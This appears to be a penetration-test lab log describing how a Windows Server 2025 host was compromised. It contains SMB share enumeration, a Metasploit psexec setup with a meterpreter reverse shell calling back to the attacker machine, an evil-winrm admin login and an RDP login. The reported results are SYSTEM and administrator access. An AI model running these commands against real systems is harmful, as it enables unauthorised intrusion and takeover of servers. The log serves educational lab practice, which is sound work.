 # 💥 Exploitation Log – 192.168.1.2 (Windows Server 2025)

This document outlines the exploitation phase conducted against the Windows Server 2025 target. This step followed successful reconnaissance and focused on gaining initial access using discovered services.

---

## ⚙️ Target Recap

- **OS:** Windows Server 2025  
- **IP:** 192.168.1.2  
- **Ports Used:** 445 (SMB), 5985 (WinRM), 3389 (RDP), 22 (SSH)  
- **Attacker Machine:** Kali Linux (192.168.1.10)

---

## 🚩 Initial Access via SMB Exploitation

### Tool Used:
- **smbclient**
- **Metasploit Framework**

### Commands:
```bash
smbclient -L //192.168.1.2 -U guest
Found open shares, including:

ADMIN$

C$

Users

Metasploit SMB Exploit:
bash
Copy
Edit
msfconsole
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.2
set SMBUser administrator
set SMBPass <known_or_tested_password>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.10
run
Result:
➡️ Successfully opened a Meterpreter session on the target.

🪟 WinRM Access (PowerShell Remoting)
Tool:
evil-winrm

Command:
bash
Copy
Edit
evil-winrm -i 192.168.1.2 -u Administrator -p <password>
Result:
➡️ Interactive shell access as Administrator.

🔓 RDP Confirmation
Tested RDP using:

bash
Copy
Edit
rdesktop 192.168.1.2
➡️ Login succeeded using same credentials.

🎯 Outcome
Technique	Status	Access Level
SMB (psexec)	✅ Success	SYSTEM shell
WinRM	✅ Success	Admin shell
RDP	✅ Success	GUI Admin Login
🧾 Attached Files
psexec_session_log.txt

evilwinrm_output.txt

meterpreter_commands.txt

⚠️ This test was performed in a secure, isolated lab for educational purposes only.
